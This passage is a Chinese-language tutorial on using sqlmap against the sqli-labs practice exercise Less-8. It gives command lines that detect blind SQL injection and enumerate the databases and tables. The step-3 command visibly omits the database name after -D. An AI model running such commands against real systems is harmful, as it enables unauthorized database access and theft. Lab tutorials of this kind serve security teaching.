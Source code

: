 1.判断是否存在注入

>sqlmap -u 39.98.88.18:8080/sql/Less-8/index.php?id=1

中间有选项，一路默认即可。然后发现其存在布尔盲注以及时间盲注。

![](img/2.7/14.png)

2.爆数据库

>sqlmap -u 39.98.88.18:8080/sql/Less-8/index.php?id=1 --dbs

![](img/2.7/15.png)

3.我们选择security这个数据库，然后爆表

>sqlmap -u 39.98.88.18:8080/sql/Less-8/index.php?id=1 -D --tables

![](img/2.7/16.png)
